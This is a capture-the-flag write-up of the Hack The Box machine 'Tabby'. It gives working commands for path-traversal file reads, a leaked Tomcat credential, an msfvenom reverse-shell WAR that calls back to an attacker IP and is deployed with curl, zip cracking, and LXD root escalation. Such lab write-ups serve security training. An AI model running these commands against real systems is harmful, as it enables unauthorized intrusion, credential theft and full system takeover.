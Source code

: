 ```yaml
---
title: "[Writeup] Hack The Box: Tabby"
date: 2020-08-08T23:53:00+07:00
categories: [writeup]
tags: [writeup, walkthrough, htb, hackthebox]
---
```


Here's my writeup for **Tabby**, a Linux box on Hack The Box. This one is created by **egre55** and it is rated as *Easy*. The techniques required to clear **Tabby** are not complicated, but you need to connect the dots, using information/vulnerabilities from one component to gain access to other components.

{{< img src="/images/htb_tabby/info.png">}}

<!--more-->

**OS:** Linux  
**Difficulty:** Easy  
**Points:** 20  
**Release:** 20 Jun 2020  
**IP:** 10.10.10.194  
**Box Creator:** egre55  
**Date Cleared:** 5 Aug 2020

## TL;DR

- Use path traversal on the `file` variable of `http://10.10.10.194/news.php` to read a credential from `/usr/share/tomcat9/etc/tomcat-users.xml`
- Use the Tomcat credential found to deploy a war file through <http://10.10.10.194:8080/manager/text/deploy>
- Get a reverse shell through the uploaded war web app, and download an encrypted zip file inside `/var/www/html/files`
- Crack the zip password using `fcrackzip` and use that password to `su` to the user `ash`
- Use `lxc` to perform privilege escalation (<https://www.hackingarticles.in/lxd-privilege-escalation/>)

## Information Gathering

Starting with `nmap` scan, there are 3 ports available on the target: `ssh` on `22`, and two `http` servers on `80` and `8080`.

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
8080/tcp open  http    Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80 - HTTP

The web server on port `80` has a website for **MEGA HOSTING**, a dedicated servers hosting service.

{{< img src="/images/htb_tabby/80_home.png">}}

There is a message mentioning that the company is *recovering from the data breach*, with a link to the statement for that.

I followed the link and it directed me to <http://megahosting.htb/news.php?file=statement>.

{{< img src="/images/htb_tabby/host_1.png">}}

I added the domain name with the IP address of the machine to the `hosts` file at `/etc/hosts` in order to access the page with the domain name. (Or you can just access the page directly without the domain name: <http://10.10.10.194/news.php>)

{{< img src="/images/htb_tabby/host_2.png">}}

The statement is just a simple text saying about the breach. The interesting part is the `file` parameter in the URL.

{{< img src="/images/htb_tabby/80_breach.png">}}

From the look of it, I guessed that `news.php` would get the file name from the `file` parameter and show the content of a file with that same name in a specific directory. I tried to do **path traversal** with `../../../../../` to traverse back to the root directory (`/`) and append the name of the file I wanted to read, and voila! I was able to read `/etc/passwd`.

{{< img src="/images/htb_tabby/80_traverse.png">}}

With this, I could read any arbitrary file *(with sufficient permission)* on the machine given the path, which would surely be useful for the further steps.

### 8080 - HTTP

The port `8080` is hosting **Apache Tomcat**. The home page is a default page with the information on the paths where the components are located at. It also tells that there are the `manager` and `host-manager` web apps available.

{{< img src="/images/htb_tabby/8080_tomcat.png">}}

I tried to log in to both `manager` and `host-manager` using the default passwords, but failed.

{{< img src="/images/htb_tabby/8080_manager.png">}}

{{< img src="/images/htb_tabby/8080_hostmanager.png">}}

However, we do have the ability to read any file on the machine, so why don't we just go ahead and read the config file for Tomcat?

## Gaining Access

With the knowledge of the installation paths from the home page, I searched for the default location of the config file containing the credentials for Tomcat manager. I looked through many paths until I found the package structure of Tomcat 9 from <https://packages.debian.org/sid/all/tomcat9/filelist>.

With that, using the `news.php` from port `80`, I found the credential `tomcat:$3cureP4s5w0rd123!` by accessing <http://megahosting.htb/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml>

{{< img src="/images/htb_tabby/80_tomcatpass.png">}}

I was able to log in to the `host-manager` web app.

{{< img src="/images/htb_tabby/8080_hostmanager_success.png">}}

Unfortunately, I couldn't access the `manager` web app which I needed to deploy a **reverse shell** web app. The reason is that the `tomcat` user does not have the `manager-gui` which is required for accessing the page.

{{< img src="/images/htb_tabby/8080_manager_denied.png">}}

It does, however, have the `manager-script` role, which according to the Tomcat 9 Doc (<https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html>), can use the plaintext interface of the `manager` web app. Therefore, I could deploy a new web app through <http://10.10.10.194:8080/manager/text/deploy>.

{{< img src="/images/htb_tabby/tomcat9_doc.png">}}

I created a reverse shell web app `war` file using the command `msfvenom -p java/jsp_shell_reverse_tcp -f war LHOST=10.10.16.12 LPORT=443 -o rev.war`

{{< img src="/images/htb_tabby/reverse_war.png">}}

I then deployed it to the server with `curl --upload-file rev.war 'http://tomcat:$3cureP4s5w0rd123!@10.10.10.194:8080/manager/text/deploy?path=/rev'`

{{< img src="/images/htb_tabby/deploy.png">}}

With the web app deployed, I could get the reverse shell by opening a listener and access my reverse shell web app at <http://10.10.10.194:8080/rev/>

{{< img src="/images/htb_tabby/rev.png">}}

Spawned a pty with `python3`.

{{< img src="/images/htb_tabby/pty.png">}}

With the shell, I found an interesting zip file in `/var/www/html/files`, so I downloaded it to my machine.

{{< img src="/images/htb_tabby/backup.png">}}

I tried to unzip it and found that the zip is encrypted.

{{< img src="/images/htb_tabby/encrypted.png">}}

With `fcrackzip`, I went for a dictionary attack on the zip file with a common wordlist `rockyou.txt`, and found the password `admin@it`.

`fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip`

{{< img src="/images/htb_tabby/fcrackzip.png">}}

With the right password, I was able to unzip and view the files. However, nothing interesting was found in any of the files.

{{< img src="/images/htb_tabby/unzip.png">}}

From the `/home` directory of the target machine, we can see that there is a user named `ash`.

{{< img src="/images/htb_tabby/home.png">}}

I was able to log in successfully with the password of the zip file, and got the user flag.

{{< img src="/images/htb_tabby/user.png">}}

## Privilege Escalation

The user `ash` is in the `lxd` group, which could be used to deploy a new container.

> LXD is a next generation system container manager. It offers a user experience similar to virtual machines but using Linux containers instead.
> &mdash; <https://linuxcontainers.org/lxd/introduction/>

With that permission, I found a blog (<https://www.hackingarticles.in/lxd-privilege-escalation/>) describing a trick that can be used to escalate the privilege by mounting the **root directory** (`/`) to a container in order to access the files with higher privilege.

I built an image using a script from <https://github.com/saghul/lxd-alpine-builder> and uploaded it to the target machine.

{{< img src="/images/htb_tabby/lxc_1.png">}}

Following the instructions from the blog, I imported the uploaded image, created a container named escalate, mounted the root directory to the container, and started it.

```sh
lxc image import alpine-v3.12-x86_64-20200804_2346.tar.gz --alias alpine
lxc init alpine escalate -c security.privileged=true
lxc config device add escalate whatever disk source=/ path=/mnt/root recursive=true
lxc start escalate
```

{{< img src="/images/htb_tabby/lxc_2.png">}}

I then executed `sh` on the container and got access to all files on the machine, including the root flag.

```
lxc exec escalate sh
cat /mnt/root/root/root.txt
```